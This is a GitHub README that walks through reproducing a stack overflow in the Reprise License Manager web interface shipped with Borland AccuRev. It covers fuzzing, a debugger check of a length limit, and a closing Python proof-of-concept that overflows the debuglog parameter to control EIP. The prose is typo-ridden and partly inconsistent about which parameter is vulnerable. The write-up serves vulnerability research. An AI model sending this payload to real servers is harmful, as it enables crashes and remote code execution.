 # Borland-AccuRev-StackoverFlow
i try to Exploit recently published  vunluerblity in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
his vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was tow fake information in ZDI report

1. maping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vunlrabe parameter is debuglog not licfile 

RLM come with AccuRev but it can be directly accsible  by flowing link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching service_startup_doit inside rlm.exe dont have result  so i changed it to service_  to get flowling strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

ZDI siad vunlrable  function is aacceible remotly so i start read RLM manal to find  out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters is all post or get requests 
after fuzzing Web interface in 2 minite i found our target "licfile" parameter.
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vunlarblity  with help of BurpSuite i send big string parameter
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error  response  without crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm check size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based  on above asm code rlm check string size be  less than or egaul to 0x400 so i thout my version is not vulrable but i start fuzz other filds so if you send big  string in debuglog parameter and  if string is less than  0x400 to bypass above check you can overiride ret value in stack  with  notoruis 0x41414141 in rlm.exe so i as said  vunlrable function is debuglog not licfile .

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i check rlm.exe and  it dose not support ASLR but there was a big problem and  it was rlm.exe contain null in its address so we can't use any address to build our ROP inside  rlm.exe  becuse it use string copy functios and it copy string in stack unitl null byte .
so i think exploting this  vunlrablaty is so simple  in XP :) just return to 

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````

